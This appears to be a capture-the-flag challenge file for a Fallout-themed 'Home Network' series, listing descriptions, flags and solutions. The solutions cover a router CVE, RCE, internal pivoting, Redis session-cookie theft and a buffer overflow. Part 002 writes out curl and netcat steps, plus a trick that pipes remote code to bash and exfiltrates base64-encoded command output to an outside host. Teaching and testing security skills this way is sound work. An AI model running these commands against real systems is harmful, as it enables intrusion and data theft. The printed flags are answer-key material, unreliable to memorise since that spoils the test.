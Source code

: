 # Home Network

## Challenge Host
http://HOST:PORT

## Name: Home Network :: 001
### Category: Home Network
### Description:
```
In the aftermath of the nuclear war that devastated the world, remnants of the pre-war technology still exist in the Commonwealth. One such remnant is a forgotten home network located in the ruins of a house near Vault 111. This home network was once owned by a skilled hacker who sought to uncover the secrets of Vault-Tec Corporation and their experiments within the vault.

As a wasteland scavenger with hacking skills, you stumble upon the remnants of this network and discover that it contains valuable information about Vault 111 and its inhabitants. Your challenge is to breach the network's security defenses and extract the hidden data.

Due to the old age, not all endpoints and features work properly, but we trust in your abilities anyway!

http://HOST:PORT

Author: [@Legoclones](https://twitter.com/legoclones)
```

### Value: 75

### Max Attempts: 0

### Flag:
`flag{hope_youre_comfortable_running_cmds_cuz_youll_Be_doing_it_a_lot}`

### Solution:
The challenge is to hack into a home network, running a GL-E750 device as the home router and only publicly exposed container. To get the first flag, the user must be able to log into the admin portal. The GL.iNET firmware version number running is 3.215, which has a public CVE that allows any user to send a request to `/cgi-bin/api/router/mesh/status` to get the LAN password. If the proper POST request is sent, the LAN password will be revealed as `th1s_1s_my_s3cur3_p4$$w0rd`, which is the same as the admin password. This is automated in `scanner.py`. 

Once the user has admin access, they need to leverage that to get RCE on the underlying file system. There are two options here - there's a previously discovered RCE vulnerability that works (see `solve/rce.py`), or the user can find their own RCE vulnerability. The flag is found in `/flag.txt`. Note that both `solve/rce.py` and `solve/scanner.py` come from publicly-available PoCs, but require some minor changes to them.




## Name: Home Network :: 002
### Category: Home Network
### Description:
```
Great job on compromising the entrypoint! But I've heard of the hacker who owned this network, and I'm sure there's more inside the network. Using the machine you've broken into, pivot into the network and see what's on there.

Author: [@Legoclones](https://twitter.com/legoclones)
```

### Value: ??

### Max Attempts: 0

### Flag:
`flag{redis_from_a_distance_ftw}`

### Solution:
Now that the participant has RCE on the IoT/entrypoint device, they must scan and exploit the rest of the internal network. Standalone executables are probably the best way to carry out attacks. These pre-compiled executables (functioning as tools) must be imported through something like `curl`, which already exists on the box, and stored in a tmp directory.

A port & ping scan of the Docker network will reveal 2 other boxes - one hosting a custom webserver and Redis db, and the other a MySQL database. The MySQL database is not relevant for this problem, instead the webserver must be compromised. The first step is to gain admin access to the note-saving website by stealing an admin session cookie from Redis. Unlike the default config, the Redis database requires authentication. However, a `backup.zip` file exists with the source code/binary of the API, in which Redis credentials can be found. This backup file is also located in `backup` to make it easier for participants to find it.

Once the `backup.zip` file is found, Redis credentials can be used to authenticate to the redis server, and 40 different session cookies can be found. Searching through all of them will reveal one admin session cookie, `ed3f2d85696656f4ea64a0f1d5ceb399`. Once this session cookie is used, an extra HTTP header will appear called `X-Flag` with the flag inside. 

```
Step-by-step from inside IoT box:
- curl http://<IP>/backup.zip -o /tmp/backup.zip
- unzip /tmp/backup.zip
- printf 'auth user password\nkeys *\n' | netcat 172.22.0.4 6379
- printf 'auth user password\nget session_ed3f2d85696656f4ea64a0f1d5ceb399\n' | netcat 172.22.0.4 6379
- curl http://172.22.0.4/api/get -H 'Cookie: session=ed3f2d85696656f4ea64a0f1d5ceb399' --head | grep flag
```

As a side note, I ran commands & obtained output from the blind RCE using this method:
- Run `sudo tail -f /var/log/nginx/access.log | grep lego`
- Run `echo 'curl https://justinapplegate.me/lego?$(command here|base64)' > /var/www/html/c`
- Run the `solve/rce.py` script with the command `curl https://justinapplegate.me/c|bash`

This will allow you to send however-long commands you want in the `c` file, and then see the output in the query string of incoming logs. It's not the most efficient approach, but it works!



## Name: Home Network :: 003
### Category: Home Network
### Description:
```
Nice job on the find! Can you find the credentials to break into the database it's using?

Author: [@Legoclones](https://twitter.com/legoclones)
```

### Value: ??

### Max Attempts: 0

### Flag:
`flag{I_hope_the_web_pwn_was_fun_XD}`

### Solution:
The last flag is hidden in the MySQL database with unguessable credentials. The only way to get those credentials is to read `/creds.txt`. There is a function inside `api.c` which will print it out for "debugging" purposes, but that function is never called. Instead, the unfinished `/create` endpoint called `create_note`, which has a buffer overflow. A simple `ret2win` (or `ret2debug`) can be used to return the credentials and access the flag. 

Since Python doesn't exist on the IoT box (and can't be installed), a `curl` command or C binary will have to suffice for delivering the exploit.

?PoC?